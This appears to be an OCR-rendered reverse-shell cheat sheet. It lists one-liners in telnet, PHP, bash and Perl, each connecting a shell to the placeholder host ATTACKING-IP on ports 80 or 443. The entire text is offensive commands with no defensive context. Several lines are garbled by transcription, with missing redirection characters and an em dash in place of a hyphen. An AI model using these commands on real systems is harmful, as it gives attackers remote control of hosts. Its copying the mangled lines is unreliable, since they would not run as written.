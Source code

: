 ```bash
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```bash
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

PHP
------------------------------------------------------------

```bash
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

- (Assumes TCP uses file descriptor 3. If it doesn’t work, try 4,5, or 6)

Bash
------------------------------------------------------------

```bash
exec /bin/bash 0&0 2>&0
```

```bash
0<&196;exec 196<>/dev/tcp/ATTACKING-IP/80; sh <&196 >&196 2>&196
```

```bash
exec 5<>/dev/tcp/ATTACKING-IP/80 cat <&5 | while read line; do $line 2>&5 >&5; done
```

```bash
# or: while read line 0<&5; do $line 2>&5 >&5; done
```

```bash
bash -i >& /dev/tcp/ATTACKING-IP/80 0>&1
```

Perl
------------------------------------------------------------

```bash
exec "/bin/sh";
```

```bash
perl —e 'exec "/bin/sh";'
```

```bash
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
